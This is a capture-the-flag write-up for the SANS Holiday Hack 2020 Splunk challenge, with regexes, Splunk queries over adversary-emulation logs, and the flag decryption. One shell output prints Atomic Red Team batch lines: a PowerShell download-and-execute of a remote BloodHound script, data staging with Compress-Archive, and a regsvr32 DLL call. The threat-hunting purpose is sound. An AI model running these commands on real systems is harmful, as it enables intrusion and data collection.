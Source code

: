 # Writeup for SANS Holiday Hack Challenge 2020 - 'Zat You, Santa Claus? featuring KringleCon 3: French Hens
# 6. Splunk Challenge
## 6.0. Description
Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?
## 6.1. Side Challenge - Sort-O-Matic
The challenge is about using the right regexes to sort toys. Below the ones I used:

| REQUEST                                                    | REGEX                                                                                                               |
| ---------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| 1. Matches at least one digit                              | \d                                                                                                                  |
| 2. Matches 3 alpha a-z characters ignoring case            | [a-zA-Z][a-zA-Z][a-zA-Z]                                                                                            |
| 3. Matches 2 chars of lowercase a-z or numbers             | [a-z0-9][a-z0-9]                                                                                                    |
| 4. Matches any 2 chars not uppercase A-L or 1-5            | ^((?![A-L1-5]).)*$                                                                                                  |
| 5. Matches three or more digits only                       | ^\d{3,}$                                                                                                            |
| 6. Matches multiple hour:minute:second time formats only   | ^([0-9]:|[0-1][0-9]:|[0-2][0-3]:)[0-5][0-9]:[0-5][0-9]$                                                             |
| 7. Matches MAC address format only while ignoring case     | ^([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}:([0-9a-fA-F]){2,2}$ |
| 8. Matches multiple day, month, and year date formats only | ^[0-3][0-9][\.\/-][0-1][0-2][\.\/-][0-2][0-9][0-9][0-9]$                                                            |

6.2. Hints
Adversary Emulation and Splunk - Minty Candycane: “Dave Herrald talks about emulating advanced adversaries and hunting them with Splunk.”
Data Decoding and Investigation - Minty Candycane: “Defenders often need to manipulate data to decRypt, deCode, and refourm it into something that is useful. Cyber Chef is extremely useful here!”
Splunk Basics - Minty Candycane: “There was a great Splunk talk at KringleCon 2 that's still available!”
6.3. Solution

QUESTION
SOLUTION
TRAINING QUESTIONS
1. How many distinct MITRE ATT&CK techniques did Alice emulate?
QUERY:
  | tstats count where index=* by index 
  | rex field=index "(?<macro>t.*?)[.-]" 
  | dedup macro 
  | count dc(macro)

RESPONSE: 13
2. What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)
QUERY:
  | tstats count where index=* by index
  | search index="*1059.003*"

RESPONSE: t1059.003-main t1059.003-win
3. One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?
QUERY 1:
  | tstats count where index=* by index
  | search index="*1082*"

QUERY 2:
  index="t1082-win" "MachineGuid" 
  |  dedup CommandLine
  |  table CommandLine

RESPONSE: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography
4. According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)
QUERY:
  index=attack OSTAP 
  | sort +"Execution Time _UTC" 
  | table "Execution Time _UTC"

RESPONSE: 2020-11-30T17:44:15Z
5. One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?
EXTERNAL RESOURCES: T1123.md, AudioDeviceCmdlets

QUERY 1:
  index=attack t1123

QUERY 2:
index=* EventID=1 EventData_Xml=*audio* 
| sort +SystemTime 
| table CommandLine, process_id 
| head 1

RESPONSE: 3648
6. Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?
QUERY:
  index=attack reg
  |  stats count by atk, field3

COMMENT: Ok, I actually gave up on this question so I worked out my alternative path. I knew it had something to do with the Atomic Red Team repository and a bat file. I cloned the github repo and extracted the last line of each bat file then submitted them until i found quser was the right one, sorry 😁

SHELL:
thedead@dellian:~/Desktop/repos$ git clone https://github.com/redcanaryco/atomic-red-team.git
Cloning into 'atomic-red-team'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 22577 (delta 7), reused 15 (delta 5), pack-reused 22553
Receiving objects: 100% (22577/22577), 56.15 MiB | 3.36 MiB/s, done.
Resolving deltas: 100% (12832/12832), done.

thedead@dellian:~/Desktop/repos/atomic-red-team$ for i in $(find ./* | grep "bat"); do tail -n1 $i; done
SCHTASKS /Delete /TN Spawn /F
cmd.exe /c powershell.exe Compress-Archive -Path C:\temp\* -CompressionLevel Optimal -DestinationPath C:\temp\allthedataz.zip
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/BloodHound_Old.ps1'); Get-BloodHoundData"
regsvr32.exe /s /n /i:"Some String To Do Things ;-)" AllTheThingsx64.dll
::del test.txt
pause
quser
echo " T1547.001 Hello World Bat"
@FOR /F "tokens=*" %%a in ('type %temp%\3.txt ^| findstr /vc:"ECHO is on."') do @echo %%a >> %temp%\users.txtpausenet localgroup
quser

RESPONSE: quser
7. According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?
QUERY:
index=* sourcetype="bro:x509*" "certificate.issuer"="CN=win-dc-748.attackrange.local" 
|  dedup certificate.subject
|  table certificate.subject, certificate.serial

RESPONSE: 55FCEEBB21270D9249E86F4B9DC7AA60
CHALLENGE QUESTION
What is the name of the adversary group that Santa feared would attack KringleCon?
INPUTS FROM ALICE BLUEBIRD: 
This last one is encrypted using your favorite phrase! The base64 encoded ciphertext is:
7FXjP1lyfKbyDK/MChyf36h7
It's encrypted with an old algorithm that uses a key. We don't care about RFC 7465 up here! I leave it to the elves to determine which one!
I can't believe the Splunk folks put it in their talk!

EXTERNAL RESOURCES: RFC 7465, Dave Herrald, Adversary Emulation and Automation | KringleCon 2020, RC4 Cipher

FAVORITE PHRASE:


SHELL:
thedead@dellian:~$ echo "7FXjP1lyfKbyDK/MChyf36h7"| base64 -d | xxd | cut -d " " -f2,3,4,5,6,7,8,9,10 | tr -d "\n" | tr -d " " && echo 
ec55e33f59727ca6f20cafcc0a1c9fdfa87b

DECRYPTION:
Decrypted using the RC4 Cypher from dcode.fr with input ec55e33f59727ca6f20cafcc0a1c9fdfa87b and key Stay Frosty

RESPONSE: The Lollipop Guild
6.4. T-Shirts and Stickers
I actually have this splunk t-shirt and sticker, love them!

---
# 6. Splunk Challenge
# 7. Solve the Sleigh's CAN-D-BUS Problem
# 8. Broken Tag Generator
# 9. ARP Shenanigans
# 10. Defeat Fingerprint Sensor
# 11a. Naughty/Nice List with Blockchain Investigation Part 1
# 11b. Naughty/Nice List with Blockchain Investigation Part 2

---
# 0. [thedead@asian:~$ whoami](../README.md)
# ?. 33.6 Kbps
# 1. Uncover Santa's Gift List
# 2. Investigate S3 Bucket
# 3. Point-of-Sale Password Recovery
# 4. Operate the Santavator
# 5. Open HID Lock